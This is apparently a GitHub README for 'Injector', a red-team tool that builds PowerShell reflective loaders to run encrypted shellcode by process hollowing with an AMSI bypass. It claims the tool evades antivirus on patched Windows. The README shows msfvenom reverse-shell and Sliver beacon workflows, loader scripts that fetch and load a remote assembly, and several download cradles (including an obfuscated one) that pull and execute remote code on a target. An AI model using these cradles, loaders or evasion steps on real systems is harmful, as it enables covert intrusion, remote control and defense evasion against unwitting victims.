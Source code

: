 # Injector

Injector builds a powershell script to reflectively load an assembly that injects an encrypted payload using a process hollowing technique. Currently, is undetected on fully patched Windows 10 and 11 systems.

It supports AES 256 and single byte XOR encryption and it uses an AMSI bypass technique from [Avi Gimpel](https://www.cyberark.com/resources/threat-research-blog/amsi-bypass-redux),  [RastaMouse](https://rastamouse.me/memory-patching-amsi-bypass/), and [icyguider](https://gist.github.com/icyguider/330df2b946037ace3567149834b3324c).

I've seen the process hollowing injection technique in code published by [@S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t),  [@affix](https://gist.github.com/affix),  [@chvancooten](https://github.com/chvancooten). Not sure who to attribute the technique to, but this is a great description: [Process Hollowing](https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/process-hollowing)

- [@affix gist](https://gist.github.com/affix/994d7b806a6eaa605533f46e5c27fa5e)
- [@chvancooten OSEP-Code-Snippets](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Hollowing/Program.cs)
- [@S3cur3Th1sSh1t DinvokeProcessHollow](https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/Csharp/DinvokeProcessHollow.cs)

I based this on [@plackyhacker](https://github.com/plackyhacker)'s work:

- [Shellcode-Encrypter](https://github.com/plackyhacker/Shellcode-Encryptor)
- [assembly-injection.ps1](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/assembly-injection.ps1)

Latest [antiscan.me](https://antiscan.me) results on the windows exe with AES encrypted payload: 

Without the AMSI bypass...

![No AMSI bypass code](./assets/ZlVQqlD2iZGC.png)

... and with AMSI bypass ...

![with AMSI bypass](./assets/YHOSOnAv0LsZ.png)

## Help

```
Injector... encrypted payload, process hollowing, reflective execution

usage: injector.py [-h] [-i LHOST] [-l LPORT] [-w WHOST] [-r WPORT] [-p PAYLOAD] [-b BINARY] [-f EXITFUNC] [-m METHOD] [-k KEY] [-e WINEXE] [-s SCRIPT] [-t TEMPDIR]

options:
  -h, --help            show this help message and exit
  -i LHOST, --lhost LHOST
                        listener ip address
  -l LPORT, --lport LPORT
                        listener port
  -w WHOST, --whost WHOST
                        webserver ip address - defaults to listener ip
  -r WPORT, --wport WPORT
                        webserver port
  -p PAYLOAD, --payload PAYLOAD
                        msfvenom payload
  -b BINARY, --binary BINARY
                        binary (shellcode) payload
  -f EXITFUNC, --exitfunc EXITFUNC
                        exitfunc: seh,thread,process,none
  -m METHOD, --method METHOD
                        encryption format: aes or xor.
  -k KEY, --key KEY     encryption key: xor requires '0x81' format, aes requires 32 char string
  -e WINEXE, --winexe WINEXE
                        windows binary
  -s SCRIPT, --script SCRIPT
                        windows PS1 reflective loader
  -t TEMPDIR, --tempdir TEMPDIR
                        directory for build artifacts (will create if necessary)
```



## Examples

### msfvenom

```
$ ./injector.py -p windows/x64/shell_reverse_tcp -i 192.168.10.125 -l 443 -r 8080 -m aes
Injector... encrypted payload, process hollowing, reflective execution

[+] creating injector for aes encrypted payload
[+] generating msfvenom payload...
[+] key: FDh6LIIU1frQzfiYJAn4vBU3bDjCXKYX
[+] created: test.exe
[+] created: iwrtest.txt
[+] created: test.txt
[+] host http://192.168.10.125:8080/test.txt and execute on target:
    powershell -ep bypass -nop -c "&{iex(iwr 'http://192.168.10.125:8080/test.txt')}"
[*] done!
```

Set up a server for the `exe` and `powershell` loader:

```
$ python -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

Execute download cradle on windows target:

```
Microsoft Windows [Version 10.0.19045.2311]
(c) Microsoft Corporation. All rights reserved.

C:\Users\tester>powershell -ep bypass -nop -c "&{iex(iwr 'http://192.168.10.125:8080/test.txt')}"
Test result: True
```

![image-20221119194423508](./assets/image-20221119194423508.png)

Catch the callback:

```
$ rlwrap -cAr nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.10.125] from (UNKNOWN) [192.168.10.108] 50300
Microsoft Windows [Version 10.0.19045.2546]
(c) Microsoft Corporation. All rights reserved.

C:\Users\tester>whoami && hostname
whoami && hostname
desktop\tester
DESKTOP
```



### sliver

```
$ /opt/tools/sliver-server_linux

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain assist
[*] Server v1.5.31 - xxx
[*] Welcome to the sliver shell, please type 'help' for options

[server] sliver > profiles new beacon --arch amd64 --os windows --mtls 192.168.2.125:443 -f shellcode --timeout 300 --seconds 5 --jitter 1 test

[*] Saved new implant profile (beacon) test

[server] sliver > stage-listener --url http://192.168.2.125:8000 --profile test

[*] No builds found for profile test, generating a new one
[*] Job 1 (http) started

[server] sliver > mtls --lhost 192.168.2.125 --lport 443

[*] Starting mTLS listener ...

[*] Successfully started job #2

[server] sliver > jobs

 ID   Name   Protocol   Port
==== ====== ========== ======
 1    http   tcp        8000
 2    mtls   tcp        443

[server] sliver > generate stager -r http --lhost 192.168.2.125 --lport 8000

[*] Sliver implant stager saved to: /home/kali/repos/injector/CREEPY_TAILOR
```

```
./injector.py -b ./CREEPY_TAILOR -w 192.168.2.125 -r 8080 -m aes
Injector... encrypted payload, process hollowing, reflective execution

[+] creating injector for aes encrypted payload
[+] key: xxx
[+] created: test.exe
[+] created: iwrtest.txt
[+] created: test.txt
[+] host http://192.168.2.125:8080/test.txt and execute on target:
    powershell -ep bypass -nop -c "&{iex(iwr 'http://192.168.2.125:8080/test.txt')}"
[*] done!
```

on target, as usual

```
C:\Users\tester> powershell -ep bypass -nop -c "&{iex(iwr 'http://192.168.2.125:8080/test.txt')}"
test succeeded
```

catch the beacon...

```
[*] Beacon 7efe5b00 PUZZLED_HEDGE - 192.168.2.108:50795 (DESKTOP) - windows/amd64 - Thu, 24 Nov 2022 23:40:38 EST
```



## Reflective loaders

`$ cat test.txt`

```powershell
[System.Reflection.Assembly]::Load([System.Convert]::FromBase64String('TVqQAAMAA...AAAAAAAA')).GetType('SystemTest.Program', [Reflection.BindingFlags] 'Public,NonPublic').GetMethod('Main', [Reflection.BindingFlags] 'Static,Public,NonPublic').Invoke($null, (, [string[]] ('4mWJw95jGbSKmhODaIT7OGxB9YQmEnoq')));
```

`$ cat iwrtest.txt`

```powershell
[System.Reflection.Assembly]::Load((Invoke-WebRequest 'http://192.168.2.125:8080/test.exe').Content).GetType('SystemTest.Program', [Reflection.BindingFlags] 'Public,NonPublic').GetMethod('Main', [Reflection.BindingFlags] 'Static,Public,NonPublic').Invoke($null, (, [string[]] ('4mWJw95jGbSKmhODaIT7OGxB9YQmEnoq')));
```



## Download cradles

```powershell
powershell -ep bypass -nop -c "&{iex(iwr 'http://192.168.2.125/test.txt')}"
powershell -ep bypass -nop -c "&{IEX([Net.Webclient]::new().DownloadString('http://192.168.2.125/test.txt'))}"
powershell -ep bypass -nop -c "&{[scriptblock]::Create(('http://192.168.2.125/test.txt'|%{(IRM $_)})).Invoke()}"
powershell -ep bypass -nop -c "function /{($args[0]|%{[char]$_})-join''};(.(/ 105,119,114) 'http://192.168.2.125:8080/test.txt').content|.(/ 105,101,120)"
```















